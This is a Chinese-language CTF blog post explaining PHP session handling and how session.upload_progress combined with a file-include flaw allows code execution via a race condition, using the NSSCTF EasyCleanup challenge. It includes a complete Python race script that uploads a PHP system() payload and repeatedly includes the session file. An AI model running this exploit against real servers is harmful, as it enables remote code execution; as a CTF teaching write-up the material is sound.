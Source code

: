 +++
date = '2022-08-25T18:12:21+08:00'
draft = false
title = 'PHP的session文件包含与条件竞争'
tags = ['ctf', 'web', 'session']
categories = ['ctf']
+++

lamaper@qq.com

[lamaper - 博客园 (cnblogs.com)](https://www.cnblogs.com/lamaper/)

## 一、什么是Session

> Session：在计算机中，尤其是在网络应用中，称为“会话控制”。Session对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的Web页之间跳转时，存储在Session对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。

由于html的特性，多个请求之间无关联，如果在/xxx.html中为登录状态，那么跳转到/yyy.html就会变成默认的未登录状态，seesion的出现是为了弥补这一缺陷，让每一个用户在多个请求中状态一致。

session是保存在服务端的，与之相对的是cookie，cookie是保存在客户端的。每当用户使用一浏览器开始对服务器发出请求，一个session就会被创建，当用户关闭浏览器结束访问，session会被删除。所以用同一个ip访问同一个网站，如果浏览器不同，用户状态也是不同的，所以session创建的标准是浏览器而不是ip。session不随刷新页面而消失。

> 以下内容以php举例

每次我们访问一个页面，如果有开启session，也就是有session_start() 时，就会自动生成一个session_id 来标注是这次会话的唯一ID，同时也会自动往cookie里写入一个名字为PHPSESSID的变量，它的值正是session_id，当这次会话没结束，再次访问的时候，服务器会去读取这个PHPSESSID的cookie是否有值有没过期，如果能够读取到，则继续用这个session_id，如果没有，就会新生成一个session_id，同时生成PHPSESSID这个cookie。由于默认生成的这个PHPSESSID cookie是会话，也就是说关闭浏览器就会过期掉，所以，下次重新浏览时，会重新生成一个session_id。

这个session是32位的。

session的存储地址在``php.ini``文件中会被标明，一般最后一级目录会是``\tmp``，当一个会话开始的时候，服务器会在目录下写入``sess_xxxxxxxxxx``文件，下划线后的就是这个会话的session_id。

## 二、一些session的服务端操作

一般我们通过``$_SESSION['<变量名>'] = ....``将一些数据存储在session中。这些数据最终会被以序列化后的格式存储在sess_文件中。session.save_handler = files 表示的是session的存储方式，默认的是files文件的方式保存。

### 一些常用的函数与参数

``save_handler ``不仅仅只能用文件files，还可以用我们常见的memcache 和 redis 来保存。

``session.use_cookies`` 默认是1，表示会在浏览器里创建值为PHPSESSID的session_id，session.name = PHPSESSID 找个配置就是改这个名字的，这个名称可以进行修改，如修改成PhPP，就会在浏览器cookie中创建PhPP的sessionid。

``session.auto_start = 0 ``用来是否需要自动开启session，默认是不开启的，所有我们需要在代码中用到session_start()；函数开启，如果设置成1，那么session_id 也会自动就生成了。

``session.cookie_lifetime = 0 ``这个是设置在客户端生成PHPSESSID这个cookie的过期时间，默认是0，也就是关闭浏览器就过期，下次访问，会再次生成一个session_id。所以，如果想关闭浏览器会话后，希望session信息能够保持的时间长一点，可以把这个值设置大一点，单位是秒。

``gc_divisor``, ``gc_probability``, ``gc_maxlifetime ``是回收这些sess_xxxxx 的文件，它是按照这3个参数，组成的比率，来启动GC删除这些过期的sess文件。gc_maxlifetime是sess_xxx文件的过期时间。

## 三、session恶意代码

在``phpinfo()``中存在这些数据

```php
1,session.save_handler	files	files
    表示session以文件的形式存储。
2,session.save_path	/tmp	/tmp
    表示session存储目录在/tmp下。
3,session.serialize_handler	php	php
    表示反序列化和序列号的处理器是PHP。
4,session.upload_progress.cleanup	On	On
    表示文件上传结束后，php会立即清除对应session文件中的内容。
5,session.upload_progress.enabled	On	On
    表示upload_progress功能启动，即浏览器向服务器上传文件时，php会把此次文件上传的详细信息存储在session中。
6,session.upload_progress.freq	1%	1%
7,session.upload_progress.min_freq	1	1
    freq 和 min_freq 两项用来设置服务器端对进度信息的更新频率。合理的设置这两项可以减轻服务器的负担。
8,session.upload_progress.name	PHP_SESSION_UPLOAD_PROGRESS	PHP_SESSION_UPLOAD_PROGRESS
9,session.upload_progress.prefix	upload_progress_	upload_progress_
    prefix 和 name 两项用来设置进度信息在session中存储的变量名/键名
10,session.use_cookies	On	On
    表示使用cookie记录sessionid。
11,session.use_only_cookies	On	On
    表示是否在客户端仅仅使用 cookie 来存放会话 ID。
12,session.use_strict_mode	Off	Off
    值为off，表示Cookie中的sessionid可控。
```

一般来说PHP_SESSION_UPLOAD_PROGRESS是开的，所以我们一般会往这个键值中写入恶意代码，然后让整个sess文件被文件包含后解析代码，最终执行代码。

以[ NSSCTF - 第五空间 2021\EasyCleanup (ctfer.vip)](https://www.ctfer.vip/problem/336)为例

服务端代码出现

```php
if(isset($_GET['file'])){ 
    if(strlen($_GET['file']) > 15 | filter($_GET['file'])) exit("hacker"); 
    include $_GET['file']; 
} 
```

我们考虑进行文件包含，之后使用其他方法先对phpinfo进行查看，观察是否关闭了``session.upload_progress.cleanup``，若没有则可以直接使用burp上传恶意代码，若存在则需要不停上传同一个session来确保恶意代码能够执行。

## 四、脚本编写

我们一般通过python进行脚本编写（python版本3.8+）

### 首先导入两个库

```python
import threading
import requests
```

requests用来进行网络请求，threading用来分离线程，做到不断循环上传session从而竞争。

### 定义基本信息

```python
target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置
```

### 编写竞争函数

```python
def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
```

不停的上传同样的post请求。将结果存于res.txt中。

### 编写读取信息函数

```python
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break
```

### main函数

```python
if __name__ == '__main__':
    session = requests.session()
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

### 完整代码

```python
import threading
import requests

target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置

def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
        
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break

if __name__ == '__main__':
    session = requests.session()
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

### 五、参考文献与拓展

[什么是session | 许小珂 (xuxiaoke.com)](https://www.xuxiaoke.com/phpnote/35.html)

[从第五空间 2021\EasyCleanup认识php_session_Aiwin-Lau的博客-CSDN博客](https://blog.csdn.net/weixin_53090346/article/details/125037416)

[PHP Session.upload_progress - chalan630 - 博客园 (cnblogs.com)](https://www.cnblogs.com/chalan630/p/14147602.html)

[PHP：会话上传进度 （php官网）](https://www.php.net/manual/en/session.upload-progress.php#:~:text=Session Upload Progress. When the session.upload_progress.enabled INI option,(via XHR for example) to check the status.)

[对于session.upload_progress漏洞的理解_huamanggg的博客-CSDN博客](https://blog.csdn.net/m0_51078229/article/details/114440061)

[ 详解利用session进行文件包含_合天网安实验室的博客-CSDN博客_session文件包含](https://blog.csdn.net/qq_38154820/article/details/120300273)


